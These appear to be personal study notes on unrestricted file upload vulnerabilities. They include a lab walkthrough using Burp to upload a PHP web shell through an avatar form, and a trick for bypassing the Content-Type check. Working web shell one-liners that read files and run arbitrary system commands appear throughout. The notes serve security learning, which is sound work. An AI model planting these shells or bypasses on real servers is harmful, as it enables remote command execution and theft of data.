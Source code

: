 ## Definition
Web server allows users to upload files to its FS without sufficiently validating things 
(their name, type, contents, or size)

## Impact
- overwrite critical files simply by uploading a file with the same name
- If the server is also vulnerable to directory traversal
  => attackers are even able to upload files to unanticipated locations

## Exploiting unrestricted file uploads to deploy a web shell
`<?php echo file_get_contents('/path/to/target/file'); ?>`
=>
- While proxying traffic through Burp, log in to your account and notice the option for uploading an avatar image.
- Upload an arbitrary image, then return to your account page. Notice that a preview of your avatar is now displayed on the page.
- In Burp, go to **Proxy > HTTP history**. Click the filter bar to open the **HTTP history filter** window. Under **Filter by MIME type**, enable the **Images** checkbox, then apply your changes.
- In the proxy history, notice that your image was fetched using a `GET` request to `/files/avatars/<YOUR-IMAGE>`. Send this request to Burp Repeater.
- On your system, create a file called `exploit.php`, containing a script for fetching the contents of Carlos's secret file. For example:
  `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- Use the avatar upload function to upload your malicious PHP file. The message in the response confirms that this was uploaded successfully.
- In Burp Repeater, change the path of the request to point to your PHP file:
  `GET /files/avatars/exploit.php HTTP/1.1`
- Send the request. Notice that the server has executed your script and returned its output (Carlos's secret) in the response.
- Submit the secret to solve the lab

A more versatile web shell may look something like this:
`<?php echo system($_GET['command']); ?>`

This script enables you to pass an arbitrary system command via a query parameter as follows:
`GET /example/exploit.php?command=id HTTP/1.1`

## Exploiting flawed validation of file uploads
### Flawed file type validation
Sometimes the check is only performed:
inside the `Content-Type:` field

in this case you can:
- upload a php shell
- intercept the packet
- change the `Content-Type:` field to `image/jpeg` 
  ![[Pasted image 20240910171421.png]]
- send the packet
- then open the image in a new tab =>  you'll execute the shell
